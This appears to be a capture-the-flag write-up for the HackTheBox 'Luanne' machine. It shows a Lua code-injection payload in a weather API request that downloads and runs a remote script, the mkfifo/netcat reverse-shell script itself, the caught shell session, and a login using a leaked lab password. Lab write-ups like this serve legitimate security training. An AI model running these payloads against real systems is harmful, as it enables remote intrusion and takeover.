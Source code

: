## Two Interesting Processes... had to tail stdout in supervisord
```Bash
/usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd\_devel.pid -U r.michaels -b /home/r.michaels/devel/www
```

```bash
/usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua -U \_httpd -b /var/www
```
## HTTPD: Arguement Descriptions
* -u, Enables ~user dir
* -X enables DIR indexing
* -s logging to stderr
* -l Port is diff
* Location of lua
* -P PID
* -U, Switch to User
* -b background## Curl Request 
```Bash
─[user@parrot-virtual]─[~/htb/luanne/www]
└──╼ $curl "10.10.10.218/weather/forecast?city=');os.execute('curl+10.10.14.23:8000/rev.sh+|+sh')--"
```

## Rev shell contents
``` Bash 
┌─[user@parrot-virtual]─[~/htb/luanne/www]
└──╼ $cat rev.sh 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 9001 >/tmp/f
```
## Shell call back
```Bash
┌─[user@parrot-virtual]─[~/htb/luanne/www]
└──╼ $nc -lnvp 9001
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.218.
Ncat: Connection from 10.10.10.218:65174.
sh: can't access tty; job control turned off
$ ls
index.html
robots.txt
$ exit
```
## Getting r.michaels ssh key
The password if from .htpasswd readable by nginx
```Bash
curl --user webapi_user:iamthebest localhost:3001/~r.michaels/$    
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current$    
                                 Dload  Upload   Total   Spent    Left  Speed$    
100   601    0   601    0     0   293k      0 --:--:-- --:--:-- --:--:--  293k$    
<!DOCTYPE html>$    
<html><head><meta charset="utf-8"/>$    
<style type="text/css">$    
table {$    
>   border-top: 1px solid black;$       
>   border-bottom: 1px solid black;$    
}$    
```